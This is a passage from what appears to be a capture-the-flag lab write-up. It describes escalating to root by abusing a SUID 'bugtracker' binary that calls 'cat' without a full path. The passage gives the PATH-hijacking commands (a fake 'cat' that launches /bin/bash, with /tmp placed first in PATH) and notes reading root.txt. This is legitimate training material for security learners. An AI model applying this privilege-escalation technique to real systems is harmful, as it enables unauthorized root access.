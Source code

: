 for us to escalate our privileges, we shall need to exploit the wrongly called binary cat as shown below.

![image.png](image%2013.png)

```bash
echo "/bin/bash" > cat
chmod +x cat
export PATH=/tmp:$PATH
./bugtracker
```

or we could just exploit the bugtracker to open our root.txt file as shown below.

![image.png](image%2014.png)

and we have pawned our machine.